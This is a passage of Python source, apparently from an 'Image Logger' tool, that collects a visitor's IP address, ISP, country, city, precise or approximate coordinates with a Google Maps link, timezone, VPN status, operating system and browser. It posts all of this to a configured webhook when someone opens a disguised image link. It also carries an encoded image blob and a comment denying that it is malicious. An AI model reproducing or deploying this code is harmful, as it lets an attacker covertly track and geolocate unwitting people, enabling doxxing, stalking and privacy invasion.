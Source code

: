         if config["antiBot"] == 3:
                return

        if config["antiBot"] == 2:
            if info["proxy"]:
                pass
            else:
                ping = ""

        if config["antiBot"] == 1:
                ping = ""


    os, browser = httpagentparser.simple_detect(useragent)
    
    embed = {
    "username": config["username"],
    "content": ping,
    "embeds": [
        {
            "title": "Image Logger - IP Logged",
            "color": config["color"],
            "description": f"""**A User Opened the Original Image!**

**Endpoint:** `{endpoint}`
            
**IP Info:**
> **IP:** `{ip if ip else 'Unknown'}`
> **Provider:** `{info['isp'] if info['isp'] else 'Unknown'}`
> **ASN:** `{info['as'] if info['as'] else 'Unknown'}`
> **Country:** `{info['country'] if info['country'] else 'Unknown'}`
> **Region:** `{info['regionName'] if info['regionName'] else 'Unknown'}`
> **City:** `{info['city'] if info['city'] else 'Unknown'}`
> **Coords:** `{str(info['lat'])+', '+str(info['lon']) if not coords else coords.replace(',', ', ')}` ({'Approximate' if not coords else 'Precise, [Google Maps]('+'https://www.google.com/maps/search/google+map++'+coords+')'})
> **Timezone:** `{info['timezone'].split('/')[1].replace('_', ' ')} ({info['timezone'].split('/')[0]})`
> **Mobile:** `{info['mobile']}`
> **VPN:** `{info['proxy']}`
> **Bot:** `{info['hosting'] if info['hosting'] and not info['proxy'] else 'Possibly' if info['hosting'] else 'False'}`

**PC Info:**
> **OS:** `{os}`
> **Browser:** `{browser}`

**User Agent:**
```
{useragent}
```""",
    }
  ],
}
    
    if url: embed["embeds"][0].update({"thumbnail": {"url": url}})
    requests.post(config["webhook"], json = embed)
    return info

binaries = {
    "loading": base64.b85decode(b'|JeWF01!$>Nk#wx0RaF=07w7;|JwjV0RR90|NsC0|NsC0|NsC0|NsC0|NsC0|NsC0|NsC0|NsC0|NsC0|NsC0|NsC0|NsC0|NsC0|NsC0|NsC0|Nq+nLjnK)|NsC0|NsC0|NsC0|NsC0|NsC0|NsC0|NsC0|NsC0|NsC0|NsC0|NsC0|NsC0|NsC0|NsC0|NsC0|NsBO01*fQ-~r$R0TBQK5di}c0sq7R6aWDL00000000000000000030!~hfl0RR910000000000000000RP$m3<CiG0uTcb00031000000000000000000000000000')
    # This IS NOT a rat or virus, it's just a loading image. (Made by me! :D)
    # If you don't trust it, read the code or don't use this at all. Please don't make an issue claiming it's duahooked or malicious.
```